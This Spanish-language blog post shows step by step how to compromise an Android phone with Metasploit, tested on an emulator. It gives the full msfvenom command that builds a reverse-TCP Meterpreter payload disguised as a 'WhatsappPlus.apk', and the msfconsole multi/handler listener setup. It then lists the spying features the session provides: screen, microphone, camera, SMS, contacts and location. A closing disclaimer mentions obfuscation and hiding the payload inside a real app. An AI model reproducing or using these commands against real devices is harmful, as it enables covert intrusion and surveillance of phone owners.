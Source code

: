 ```yaml
---
layout: post
category: red
tags: hack android meterpreter msfvenom msfconsole metasploit
author: RedDev
title : Vamos a hackear un móvil android
---
```


# Introducción
En este artículo vamos a conocer una de las maneras más comunes con las cuales los hackers ganan acceso a nuestros dispositivos android.

# Herramientas a utilizar 
- Emulador android 7.0
- Sistema Kali Linux
- Metasploit

# Manos a la obra
## 1.Creando el payload
Para este fin usaremos msfvenom, una de las herramientas de MetasPloit, como nuestro objetivo es un móvil android usaremos el siguiente comando:
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.126.145 LPORT=4444 R > WhatsappPlus.apk
```
Siendo LHOST nuestra ip, en este caso privada y el LPORT el puerto de escucha.
El payload es de tipo meterpreter, este tipo de virus es muy peligroso ya que funciona por medio de inyecciones dinamicas en memoria, lo que lo hace difícil de detectar y además permite el uso de otros exploits de forma fácil.
![image](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/602b5004-d20c-4eb2-b4dc-477b00588fea)

## 2.Configurando el listener
Primero abrimos msfconsole
```bash
msfconsole
```
Tras esto usamos: 
```bash
use multi/handler/
set payload android/meterpreter/reverse_tcp
```
Tras esto configuraremos el listener.
Por defecto está así:
```bash
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (android/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```
Por lo que solo tendremos que configurar nuestro LHOST de esta forma:
```bash
set lhost eth0
```
Siendo eth0 nuestra interfaz de red por la que estaremos en escucha, aunque también podemos escribir nuestra IP privada a mano
Trás esto escribimos:
```bash
run
```
Y a funcionar :)
![Captura de pantalla 2023-05-26 011413](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/98354012-f3a5-4f3b-b49c-1e480bac7800)

## 3.Enviando e instalando el apk maliciosa
Descargamos la apk en el dispositivo:
![Captura de pantalla 2023-05-26 011816](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/cd602b93-315a-4959-bde3-410427a4595d)

Ahora procedemos a instalarla, y una vez abierta, obtenemos la sesión:
![Captura de pantalla 2023-05-26 012015](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/bea26a17-1200-411d-8712-bbcb0e159839)

Ahora vamos a ver las opciones que nos brinda este tipo de virus:
![Captura de pantalla 2023-05-26 012015](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/2f15b637-3cac-4f58-8f5b-4fde56cc2f78)
Entre las opciones que nso brinda esta:
- Espiar la pantalla del dispositivo
- Grabar el micrófono o la webcam
- Iniciar aplicaciones
- Enviar SMSs
- Geolocalizar el dispositivo
- Robar el historial de llamadas, contactos, SMSs
- Esconder la aplicación maliciosa
- Instalar aplicaciones...

# Conclusiones
Como veis este tipo de virus son muy peligrosos, pudiendo hacer mucho daño al usuario.
Como disclamer, quiero recalcar que este método no es efectivo a día de hoy ya que el antivirus de android y lo "extraña que es la app", es difícil de hacela efectiva esta técnica, para esto se utilizan diversas técnicas como ofuscación o esconder el payload en una app veridica y de esta forma usar la app como caballo de troya.

